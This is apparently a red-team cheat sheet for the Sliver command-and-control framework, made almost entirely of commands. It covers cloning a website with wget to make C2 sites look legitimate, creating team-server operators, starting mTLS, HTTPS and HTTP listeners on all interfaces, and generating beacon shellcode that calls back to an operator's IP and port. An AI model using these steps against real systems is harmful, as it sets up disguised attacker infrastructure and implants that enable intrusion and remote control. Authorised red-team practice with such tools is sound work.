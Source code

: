 Clone website with wget.
```
wget --mirror --convert-links --html-extension <target>
```

Add content to HTTP(S) C2 websites to make them look more legit.
```
websites add-content --website <name> --web-path <path> --content ./public --recursive
```

## Team Server


#### Create New Operator
```
./sliver-server_linux operator -l <teamserver_ip> -p <teamserver_port> -n <username> -s /tmp/<username>.cfg
```
---
### Connect to Team Server
```
sliver-client import /tmp/<username>.cfg
sliver-client
```

### Create New Listener

#### MTLS
``` 
mtls -l 443 -L 0.0.0.0 -p
```

#### HTTPS
```
https -l 443 -L 0.0.0.0 -p
```

### HTTPS Domain
```
https --domain <domain> --cert /path/cert.pem --key /path/privkey.pem --website <website_name> -p
```

#### HTTP
```
http -l 80 -L 0.0.0.0 -p
```
---

## Payload Creation

### Generate Shellcode
```
generate beacon --mtls <ip address>:<port> -f shellcode
```
